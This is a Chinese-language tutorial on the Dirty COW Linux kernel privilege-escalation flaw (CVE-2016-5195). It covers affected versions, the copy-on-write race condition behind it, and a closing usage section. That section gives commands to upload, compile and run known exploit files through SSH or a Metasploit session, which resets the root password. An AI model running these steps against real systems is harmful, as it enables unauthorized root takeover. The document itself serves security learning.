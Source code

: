 ## **脏牛漏洞（CVE-2016-5195）**
又叫Dirty COW，存在Linux内核中已经有长达9年的时间，在2007年发布的Linux内核版本中就已经存在此漏洞。Linux kernel团队在2016年10月18日已经对此进行了修复。

## []()漏洞范围

Linux内核 >= 2.6.22（2007年发行，到2016年10月18日才修复）

## []()先决条件

**一个 CVE-2016-5195 易受攻击的系统**
**该程序已成功用于:**

RHEL7 Linux x86_64
RHEL4（4.4.7-16）
Debian 7（“wheel”）
Ubuntu 14.04.1 LTS
Ubuntu 14.04.5 LTS
Ubuntu 16.04.1 LTS
Ubuntu 16.10
Linux Mint 17.2
**并编译：**
铿锵版本 4.0.0；
gcc 版本 6.2.0 20161005 (Ubuntu 6.2.0-5ubuntu12)
gcc 版本 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.1)
gcc 版本 4.8.5 20150623（红帽 4.8.5-4）（GCC）；
gcc 版本 4.8.4 (Ubuntu 4.8.4);
gcc 版本 4.8.2 (Ubuntu 4.8.2-19ubuntu1)
gcc 版本 4.7.2 (Debian 4.7.2-5);
gcc 版本 4.4.7（带有“旧”版本）

## []()漏洞原理

该漏洞具体为，Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时**产生了竞争条件**（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。**竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。** 利用这一漏洞，攻击者可在其目标系统提升权限，重置root密码。

## []()漏洞危害
低权限用户利用该漏洞可以在众多Linux系统上实现本地提权，或重置root密码。

## []()利用方法

```
有ssh普通账户：
利用Xftp 7工具去连接目标，并上传漏洞exp文件dirty.c，最好在/tmp目录
 gcc -pthread dirty.c -o exp -lcrypt
 ./exp

有MSF会话：
直接上传文件
upload /root/dcow.cpp /tmp/dcow.cpp
shell
chmod +x dcow.cpp
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
g++ -Wall -pedantic -o2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
./dcow

此时root密码被重置Root password is:dirtyCowFun
su root 即可
```

